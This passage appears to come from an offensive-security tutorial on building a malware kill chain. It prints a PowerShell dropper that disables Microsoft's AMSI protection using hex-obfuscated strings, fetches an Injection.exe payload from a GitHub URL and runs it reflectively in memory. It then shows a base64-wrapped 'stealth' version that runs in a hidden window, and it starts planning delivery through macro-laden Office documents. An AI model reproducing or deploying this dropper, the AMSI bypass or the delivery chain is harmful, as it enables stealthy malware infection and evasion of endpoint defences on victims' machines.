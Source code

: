 We will execute a web request from our Powershell script to load our Injection.exe application into memory from a static repository and reflectively execute it on our target machine.
It should be clear that one mistake made on behalf of the user can lead to a very serious and stealthy malware executing in the background.
One more precaution we can take to increase the chances of our malware establishing a foothold on the target is to first try to patch AMSI before we attempt to load any of our more sophisticated malware on the target.

If you are unfamiliar, Microsoft's Anti Malware Scan Interface (AMSI) is a protection mechanism added to assist in the detection of malware, you can read more about it [here](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). 
AMSI also exposes hooks so that AV and EDR solutions can make use of it to augmuent their functionality.
In this example we will make use of Matt Graeber's ever popular AMSI Initalization Fail to patch AMSI out of the running Powershell process before we retrieve our other malware.
This leaves us with the final version of our Dropper.ps1:

```ps1
$k = $("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result);
$w = $("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result).Substring(9,14);
[Ref].Assembly.GetType('System.Management.Automation.' + $k).GetField($w, 'NonPublic,Static').SetValue($null, $true);
$path = (Invoke-WebRequest 'https://github.com/bakarilevy/killchain/Injection.exe').Content;
$bytes = [System.IO.File]::ReadAllBytes($path);
$assembly = [System.Reflection.Assembly]::Load($bytes);
$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic');
$entryPointMethod.Invoke($null, (, [string[]] ($null)));
```

The astute amongst you will notice that this is not an acceptable script to deploy to our target because it contains data about where some of our artifacts are stored.
Luckily we can make this dropper more stealthy by base64 encoding it before we deliver it to our target have a look at Stealth.ps1:

```ps1
$k = "JGsgPSAkKCI0MSA2RCA3MyA2OSA1NSA3NCA2OSA2QyA3MyIuU3BsaXQoIiAiKXxmb3JFYWNoe1tjaGFy..."
$w = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($k))
echo $w -nop -windowstyle hidden -
``` 

Please note that I have not included the entire base64 string in the above example due to it's size however it is in the source code.
As you can see we have taken our Dropper.ps1 script and obfuscated it as a string, we will then unpack it at runtime and execute it.
The final step in our killchain is simply to generate a malicious file that will retrieve and execute our Stealth.ps1 script in memory.

# Step 4: Deliver our malicious file

For us to craft the final piece of malware we need to initiate our killchain let us quickly inventory what we might need.  
We know that we will need to deliver a file that can execute code on the target, and for that reason we should use either a Microsoft Word or Excel document.  
With Office documents you can embed code directly within the document commonly referred to as "macros", these macros are typically written in Visual Basic.  
We could use a tool such as [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) to convert the .NET application that we wrote into a macro we embed into an Office document for us however there are limitations to this approach.  
The first limitation is that DotNetToJscript may not work with the version of the .NET Framework we are targeting, this consideration is very important, perhaps if you were already using an older version of the .NET Framework it wouldn't be an issue, however we are using the .NET Framework 6 at the time of writing.  